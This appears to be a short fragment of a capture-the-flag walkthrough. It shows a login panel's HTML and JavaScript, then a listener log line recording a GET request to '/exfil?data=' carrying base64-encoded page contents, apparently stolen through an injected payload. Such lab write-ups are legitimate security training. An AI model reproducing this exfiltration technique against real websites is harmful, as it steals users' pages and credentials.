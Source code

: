 ```bash
</head>

<body>
  <div class="wrapper fadeInDown">
    <div id="formContent">

      <!-- Login Form -->
      <form id='login-form' method="POST">
        <h2>Panel Login</h2>
        <input required type="text" id="email" class="fadeIn second" name="email" placeholder="Email">
        <input required type="password" id="password" class="fadeIn third" name="password" placeholder="Password">
        <input type="submit" class="fadeIn fourth" value="Log In">
        <p hidden id="message" style="color: #8F8F8F">Only show this line if response - edit code</p>
      </form>

      <!-- Remind Passowrd -->
      <div id="formFooter">
        <a class="underlineHover" href="register.html">Create an account</a>
      </div>

    </div>
  </div>

  <!-- Bootstrap core JS-->
  <script src="js/bootstrap.bundle.min.js"></script>

  <!-- Login Form-->
  <script>
    // Get the form element
    const form = document.getElementById('login-form');

    // Add a submit event listener to the form
    form.addEventListener('submit', event => {
      // Prevent the default form submission
      event.preventDefault();

      // Send a POST request to the login.php script
      fetch('/auth.php', {
        method: 'POST',
        body: new URLSearchParams(new FormData(form)),
        headers: { 'Content-Type': 'application/x-www-form-urlencoded' }
      }).then(response => {
        return response.json();

      }).then(data => {
        // Display the name and message in the page
        document.getElementById('message').textContent = data.message;
        document.getElementById('password').value = '';
        document.getElementById('message').removeAttribute("hidden");
      }).catch(error => {
        // Display an error message
        //alert('Error: ' + error);
      });
    });
  </script>
</body>
</html>
10.10.11.209 - - [17/Jul/2023 18:32:42] "GET /exfil?data=CjwhRE9DVFlQRSBodG1sPgo8aH
...snip...
...snip...
```